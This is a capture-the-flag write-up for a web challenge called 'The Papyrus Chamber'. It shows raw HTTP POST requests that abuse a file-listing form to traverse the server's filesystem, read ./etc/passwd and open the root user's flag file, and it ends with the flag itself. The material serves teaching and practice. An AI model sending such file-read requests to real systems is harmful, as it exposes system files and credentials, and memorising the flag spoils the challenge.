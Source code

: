 ![](../img/TLSOTP.png)

# Information gathering / Attack
Entering the site the user is presented with a button to enter the "Papyrus Chamber".  
![](../img/TLSOTP_Home.png)


Analyzing the source code on this page doesn't give any hints.


Pressing the button redirect the user to "The Papyrus Chamber" where it's possible to search the archives.   
![](../img/TLSOTP_Enter_Chamber.png)


Analyzing the source on this page give away a hint (through the comments) that files and directoires could be listed and files be opened.  
![](../img/TLSOTP_Chamber_source.png)


Entering an absolute path ```/etc/passwd/``` to test the functionality of the search function doesn't give any output either in the app or the source code.  
```http
POST /papyrus HTTP/1.1
Host: 64.227.121.142:6003
Content-Length: 20
Cache-Control: max-age=0
Accept-Language: en-GB,en;q=0.9
Origin: http://64.227.121.142:6003
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/135.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://64.227.121.142:6003/papyrus
Accept-Encoding: gzip, deflate, br
Connection: keep-alive

file=%2Fetc%2Fpasswd
```


Testing to enter just a single period character ```.``` to see if the app can list the current directory. Here a list of directories are returned to the user.  
```http
POST /papyrus HTTP/1.1
Host: 64.227.121.142:6003
Content-Length: 6
Cache-Control: max-age=0
Accept-Language: en-GB,en;q=0.9
Origin: http://64.227.121.142:6003
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/135.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://64.227.121.142:6003/papyrus
Accept-Encoding: gzip, deflate, br
Connection: keep-alive

file=.
```


![](../img/TLSOTP_Enter_period_char.png)


The response hints that the ```ls``` probably is the executed command, that the command is executed at the root ```/``` path and that relative paths has to be used. A famous file to be used in a CTF and probably would give away the users on the system is ```/etc/passwd```. Entering the relative path ```./etc/passwd``` returns a the contents of the file.


```http
POST /papyrus HTTP/1.1
Host: 64.227.121.142:6003
Content-Length: 21
Cache-Control: max-age=0
Accept-Language: en-GB,en;q=0.9
Origin: http://64.227.121.142:6003
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/135.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://64.227.121.142:6003/papyrus
Accept-Encoding: gzip, deflate, br
Connection: keep-alive

file=.%2Fetc%2Fpasswd
```


![](../img/TLSOTP_etc_passwd.png)


This response tells that the cat command is probably in use as well, that there is two users called ```root``` and ```anubis``` and that the users ```anubis``` has a home directory ```/home/anubis``` and ```root``` has the regular ```/root``` as home directory.

The ```anubis``` home directory seems to be empty cause nothing is returned when entering the path ```./home/anubis```. But the ```/root``` contains a directory called ```flags``` and contains a text file called ```true_flag.txt``` containing the flag for the trail.   
Path to the flag: ```./root/flags/true_flag.txt```  
![](../img/TLSOTP_root_home.png)


![](../img/TLSOTP_Flag_dir.png)


![](../img/TLSOTP_solved.png)


Flag: ```O24{c0ngr4tul4t10ns_y0u_f0und_th3_r34l_fl4g!}```